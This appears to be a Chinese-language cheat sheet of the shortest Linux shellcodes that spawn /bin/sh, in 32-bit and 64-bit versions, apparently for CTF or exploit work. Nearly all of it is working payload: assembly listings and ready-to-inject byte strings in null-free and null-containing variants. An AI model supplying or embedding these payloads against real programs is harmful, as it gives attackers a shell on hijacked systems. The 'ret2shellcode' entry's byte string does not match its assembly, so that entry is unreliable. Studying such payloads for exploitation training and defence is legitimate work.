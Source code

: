 # Linux ShellCode总结

在寄存器都是非理想值情况下(shellcode可根据环境具体触发时寄存器的值做长度调整)，本着最优通用的原则，整理了Linux下32位和64位最短通用shellcode的编写。

## 32位

### 有"\x00"最短 20 byte

```assembly
xor ecx,ecx               
mul ecx                   
mov al,0xb                
push 0x68732f             
push 0x6e69622f           
mov ebx,esp               
int 0x80
```

### 无"\x00"最短 21 byte

```assembly
xor ecx,ecx
mul ecx
push eax
mov al,0xb
push 0x68732f2f   
push 0x6e69622f   
mov ebx,esp
int 0x80
```

### 标准shellcode 23 byte

```assembly
xor ecx,ecx
xor edx,edx
push edx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
xor eax,eax
mov al,0xB
int 0x80
```

### 此外

```assembly
push 0x68732f	;push '/sh'
push 0x6e69622f	;push '/bin'
mov ebx, esp	;ebx='/bin/sh'
xor edx, edx	;edx=0
xor ecx, ecx	;ecx=0
mov eax, 0xb	;eax=0xb
int 0x80
```

## 64位

### 有"\x00"最短 22 byte

```assembly
xor rsi,rsi
mul esi
mov rbx,0x68732f6e69622f
push rbx
push rsp
pop rdi
mov al, 59
syscall
# shellcode = b'H1\xf6\xf7\xe6H\xbb/bin/sh\x00ST_\xb0;\x0f\x05'
```

### 无"\x00" 最短23 byte

```assembly
xor rsi,rsi
mul esi
push rax
mov rbx,0x68732f2f6e69622f
push rbx
push rsp
pop rdi
mov al, 59
syscall
# shellcode = b'H1\xf6\xf7\xe6PH\xbb/bin//shST_\xb0;\x0f\x05'
```

### 标准shellcode 31 byte

```assembly
xor    rdi,rdi
xor    rsi,rsi
xor    rdx,rdx
xor    rax,rax
push   rax
mov rbx,0x68732f2f6e69622f
push   rbx
mov    rdi,rsp
mov    al,0x3b
syscall
# shellcode = b'H1\xffH1\xf6H1\xd2H1\xc0PH\xbb/bin//shSH\x89\xe7\xb0;\x0f\x05'
```

### ret2shellcode 22byte

```assembly
shellcode = '''
xor rax,rax
xor rdi,rdi
mov rdi ,0x68732f6e69622f
push rdi              
push rsp                 
pop rdi
xor rsi,rsi
xor rdx,rdx
push 0x3b   
pop rax
syscall
'''
# shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05'
```

### 其它 34byte

```assembly
xor    rax, rax
add    rax, 0x3b
xor    rdi, rdi
push   rdi
movabs rdi, 0x68732f2f6e69622f
push   rdi
lea    rdi, [rsp]
xor    rsi, rsi
xor    rdx, rdx
syscall
# shellcode = b'\x48\x31\xc0\x48\x83\xc0\x3b\x48\x31\xff\x57\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x8d\x3c\x24\x48\x31\xf6\x48\x31\xd2\x0f\x05'
```



